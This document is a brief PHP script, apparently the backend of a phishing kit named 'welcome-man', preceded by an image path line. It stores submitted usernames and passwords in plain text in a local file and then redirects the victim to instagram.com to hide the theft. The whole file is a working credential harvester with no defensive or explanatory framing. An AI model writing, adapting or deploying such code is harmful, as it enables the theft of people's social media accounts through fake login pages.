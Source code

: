 # welcome-man
<?php

file_put_contents("usernames.txt", "Account: " . $_POST['username'] . " Pass: " . $_POST['password'] . "\n", FILE_APPEND);
header('Location: https://instagram.com');
exit();
